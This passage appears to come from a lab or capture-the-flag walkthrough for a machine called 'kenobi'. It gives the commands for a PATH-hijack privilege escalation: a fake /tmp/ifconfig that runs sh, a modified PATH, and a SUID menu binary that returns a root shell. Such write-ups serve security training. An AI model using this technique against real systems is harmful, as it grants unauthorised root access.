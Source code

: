 Let's add file `ifconfig` to folder `/tmp`, and file `ifconfig` contain bash shell execution.

```
kenobi@kenobi:~$ echo sh > /tmp/ifconfig
kenobi@kenobi:~$ chmod 777 /tmp/ifconfig
```

Add the folder `/tmp` to the first PATH

```
kenobi@kenobi:~$ export PATH=/tmp/:$PATH
```

Run file `/usr/bin/menu` and execute command `ifconfig` to get root shell

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
# id            
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```